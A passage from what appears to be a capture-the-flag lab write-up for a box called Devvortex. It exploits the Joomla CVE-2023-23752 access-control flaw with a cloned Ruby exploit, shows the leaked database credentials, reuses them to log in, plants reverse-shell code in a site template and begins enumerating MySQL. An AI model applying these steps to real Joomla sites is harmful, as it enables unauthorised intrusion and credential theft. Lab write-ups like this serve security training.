         1. "An issue was discovered in Joomla! 4.0.0 through 4.2.7. An improper access check allows unauthorized access to webservice endpoints." - NIST
         2. Clone this tool
            1. > git clone https://github.com/Acceis/exploit-CVE-2023-23752.git
7. EXPLOIT
   1. Lets run our ruby exploit script we found
      1. > ruby exploit.rb http://dev.devvortex.htb

            ```text
                Users
                [649] lewis (lewis) - lewis@devvortex.htb - Super Users
                [650] logan paul (logan) - logan@devvortex.htb - Registered

                Site info
                Site name: Development
                Editor: tinymce
                Captcha: 0
                Access: 1
                Debug status: false

                Database info
                DB type: mysqli
                DB host: localhost
                DB user: lewis
                DB password: P4ntherg0t1n5r3c0n##
                DB name: joomla
                DB prefix: sd4fg_
                DB encryption 0
            ```

            1. Now we have some crucial information about the database and users
            2. Lets sign in
               1. UN: lewis
               2. PW: P4ntherg0t1n5r3c0n##
8. JOOMLA
   1. Navigate to site templates
   2. In the login (or any php file) lets add our revshell code
   3. Create a netcat listner
   4. SUCCESS!
9. ENUMERATION
   1. Check user home directories
      1. > ls /home
         1. logan
      2. > ls /home/logan
         1. user.txt
         2. We can't read this though we need to escalate our privilges
   2. MYSQL
      1. We saw the MYSQL information from our ruby exploit script lets try and sign in and see if there is data in there we could use
         1. > msql -u lewis -p "P4ntherg0t1n5r3c0n##"
      2. MYSQL
         1. > show databases;
         2. > use joomla;
         3. > show tables;

